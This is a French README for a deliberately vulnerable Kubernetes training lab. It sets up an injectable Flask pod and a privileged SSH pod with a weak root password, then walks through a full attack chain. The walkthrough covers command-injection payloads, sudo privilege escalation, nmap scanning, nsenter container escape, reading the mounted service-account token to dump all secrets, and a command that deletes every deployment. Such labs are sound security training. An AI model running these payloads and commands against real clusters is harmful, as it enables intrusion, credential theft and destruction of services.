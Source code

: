 # Scénario de Cluster Kubernetes Vulnérable

Ce projet met en place un environnement de cluster Kubernetes conçu pour démontrer un chemin d'attaque en plusieurs étapes, illustrant des vulnérabilités et des mauvaises configurations courantes.

**Objectif du Scénario :** Déployer un cluster avec des vulnérabilités intentionnelles, permettant à un attaquant de passer d'un service web exposé à une compromission complète du cluster.

**Architecture :**

*   **Pod 1 (`pod1-webapp`)**:
    *   Exécute une application web Flask accessible depuis l'extérieur du cluster (via NodePort).
    *   Vulnérable à l'**Injection de Commandes** via un endpoint `/ping`.
    *   S'exécute en tant que `appuser`, mais a `sudo NOPASSWD` configuré pour `/usr/bin/python3`, permettant l'**Escalade de Privilèges** dans le conteneur.
    *   La Network Policy autorise la sortie (*egress*) *uniquement* vers le Pod 2 sur le port 22.
*   **Pod 2 (`pod2-ssh`)**:
    *   Exécute un serveur SSH, accessible *uniquement* depuis le Pod 1 (via un service ClusterIP et une Network Policy).
    *   Autorise la connexion root via SSH avec un **mot de passe faible** (`root:password123`).
    *   S'exécute en tant que **conteneur privilégié** (`securityContext.privileged: true`) et avec `hostPID: true`, permettant l'**Évasion de Pod / Sortie de Conteneur**.
    *   Utilise un `ServiceAccount` (`cluster-admin-sa`) lié à un `ClusterRole` (`cluster-admin-role`) avec des permissions excessivement permissives (`* * *`), permettant la **Prise de Contrôle du Cluster**.
*   **Network Policies** : Forcent le flux de communication prévu : Externe -> Pod 1 -> Pod 2.

## Prérequis

*   Docker installé et en cours d'exécution.
*   `kubectl` installé.
*   Un cluster Kubernetes en cours d'exécution (par exemple, Docker Desktop Kubernetes, Minikube, OrbStack, k3d, etc.). Assurez-vous que `kubectl` est configuré pour pointer vers votre cluster cible.

## Instructions d'Installation

0.  **Démarrer Minikube (si utilisé) :**
    Si vous utilisez Minikube avec le driver Docker, démarrez-le et configurez votre shell pour utiliser le démon Docker de Minikube. Cela garantit que les images construites localement sont disponibles pour le cluster Minikube.
    ```bash
    minikube start --driver=docker
    eval $(minikube docker-env)
    ```
    *(Si vous utilisez un autre environnement Kubernetes comme Docker Desktop ou OrbStack, cette étape n'est généralement pas nécessaire car ils partagent l'environnement Docker de l'hôte.)*

1.  **Cloner le Dépôt (si applicable) :**
    ```bash
    # git clone <url-du-depot>
    # cd <repertoire-du-depot>
    ```

2.  **Construire les Images Docker :**
    Construisez localement les images pour les deux pods.
    ```bash
    docker build -t vulnerable-webapp:latest pod1-webapp-src/
    docker build -t ssh-server:latest pod2-ssh-server-src/
    ```
    *(Note : Si votre cluster Kubernetes n'utilise pas automatiquement les images de votre démon Docker local (par exemple, un cluster distant), vous devrez pousser ces images vers un registre accessible par le cluster et mettre à jour les noms d'images dans les fichiers `k8s/*.yaml`.)*

3.  **Déployer sur Kubernetes :**
    Appliquez tous les fichiers manifestes Kubernetes situés dans le répertoire `k8s`.
    ```bash
    kubectl apply -f k8s/
    ```

4.  **Vérifier le Déploiement :**
    Vérifiez que les pods s'exécutent et que les services sont créés.
    ```bash
    kubectl get pods -o wide
    kubectl get services
    ```
    Vous devriez voir les pods `pod1-webapp-<hash>` et `pod2-ssh-<hash>` à l'état `Running`. Notez le NodePort assigné à `pod1-webapp-service` (par exemple, `3xxxx`).

## Chemin d'Exploitation

1.  **Accéder à l'Application Web (Pod 1) :**
    Ouvrez votre navigateur et naviguez vers `http://<IP_DU_NODE>:<NODE_PORT>` ou `http://localhost:<NODE_PORT>` si vous utilisez Docker Desktop/OrbStack. (Remplacez `<NODE_PORT>` par le port noté à l'étape 4 de l'Installation).

2.  **Injection de Commandes (Pod 1) :**
    Utilisez le champ "Host to ping" ou manipulez l'URL pour injecter des commandes.
    *   Exemple : `http://localhost:<NODE_PORT>/ping?host=127.0.0.1; id`
    *   Objectif : Obtenir l'exécution de commandes en tant que `appuser`. Essayez `ls /`, `whoami`, `cat /etc/passwd`.

3.  **Escalade de Privilèges (Pod 1) :**
    Abusez de la configuration `sudo NOPASSWD` pour python3. Injectez une commande qui utilise `sudo python3` pour exécuter du code en tant que root dans le conteneur.
    *   Exemple de Payload pour l'URL : `127.0.0.1; sudo python3 -c 'import os; os.system("id")'`
    *   Obtenir un shell root : `127.0.0.1; sudo python3 -c 'import os; os.system("/bin/bash")'` (Note : Ce shell interactif peut être délicat via les requêtes web, souvent on établirait un reverse shell ici).

4.  **Découverte Réseau (Trouver Pod 2) :**
    Depuis votre shell root / exécution de commandes sur le Pod 1, trouvez l'adresse IP interne du Pod 2.
    *   Le nom du service interne est `pod2-ssh-service`. Le DNS devrait le résoudre dans le cluster.
    *   Essayez de le pinger : `ping pod2-ssh-service`
    *   Ou utilisez des outils d'analyse réseau (si installés ou installables) : `apt-get update && apt-get install -y iproute2 net-tools nmap; ip a; nmap <PLAGE_IP_CLUSTER>` (Trouvez la plage via `ip a`).
    *   Alternativement, vérifiez les variables d'environnement ou les mécanismes de découverte de service si disponibles. L'IP du service a été listée par `kubectl get svc` également (`pod2-ssh-service` `CLUSTER-IP`). Supposons que c'est `192.168.194.218` basé sur la sortie précédente.

5.  **Mouvement Latéral (SSH vers Pod 2) :**
    Connectez-vous en SSH au Pod 2 en utilisant les identifiants root faibles (`root` / `password123`). Vous devrez peut-être d'abord installer un client SSH sur le Pod 1 (`apt-get update && apt-get install -y openssh-client`).
    ```bash
    # Depuis le shell root sur Pod 1
    ssh root@<IP_POD_2_ou_NOM_SERVICE> 
    # Entrez le mot de passe : password123
    ```
    Vous devriez maintenant avoir un shell root sur le Pod 2.

6.  **Évasion de Pod / Sortie de Conteneur (Depuis Pod 2) :**
    Le Pod 2 s'exécute en tant que privilégié (`privileged: true`) et avec `hostPID: true`. Cela permet d'accéder aux ressources de l'hôte. Il existe de nombreuses techniques, voici quelques concepts :
    *   **Accéder aux Processus Hôtes :** Puisque `hostPID` est vrai, `ps aux` à l'intérieur du conteneur montre les processus de l'*hôte*. Vous pourriez trouver des informations sensibles ou des processus avec lesquels interagir.
    *   **Accéder au Système de Fichiers Hôte :** Les conteneurs privilégiés peuvent souvent monter les périphériques hôtes (`fdisk -l` pourrait montrer les disques hôtes) ou trouver des moyens d'accéder au système de fichiers hôte, potentiellement via `/proc/<pid_hote>/root/`.
    *   **Créer un Pod Hôte Privilégié :** Utilisez le token de compte de service monté (voir étape suivante) pour créer un nouveau pod directement sur le réseau/namespace de l'hôte avec des montages hôtes.
    *   **Exécuter une Commande sur l'Hôte :** Trouvez le PID 1 de l'hôte (processus init) via `ps aux`, puis utilisez `nsenter` pour entrer dans les namespaces de l'hôte et exécuter des commandes : `nsenter --target <PID_1_HOTE> --mount --uts --ipc --net --pid <commande>`.

7.  **Prise de Contrôle du Cluster (Depuis Pod 2) :**
    Le token du ServiceAccount `cluster-admin-sa` est monté dans le Pod 2 (généralement à `/var/run/secrets/kubernetes.io/serviceaccount/token`). Ce compte est lié au `ClusterRole` `cluster-admin-role` avec les permissions `* * *`.
    *   Installez `kubectl` à l'intérieur du Pod 2 (`apt-get update && apt-get install -y kubectl`).
    *   Utilisez le token monté pour interagir avec l'API Kubernetes en tant que cluster-admin :
        ```bash
        # Dans le shell du Pod 2
        TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
        CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
        APISERVER=https://kubernetes.default.svc # Adresse interne par défaut du serveur API

        # Tester l'accès
        kubectl --server=$APISERVER --token=$TOKEN --certificate-authority=$CACERT get nodes
        kubectl --server=$APISERVER --token=$TOKEN --certificate-authority=$CACERT get secrets --all-namespaces 
        # Vous avez maintenant le contrôle total du cluster !
        ```
    *   Simuler l'arrêt : `kubectl --server=$APISERVER --token=$TOKEN --certificate-authority=$CACERT delete deployment --all --all-namespaces` (Ne pas exécuter sauf si intentionnel !)

## Nettoyage

Pour supprimer toutes les ressources créées par ce scénario :
```bash
kubectl delete -f k8s/
```
Vous pouvez également vouloir supprimer les images Docker :
```bash
docker rmi vulnerable-webapp:latest ssh-server:latest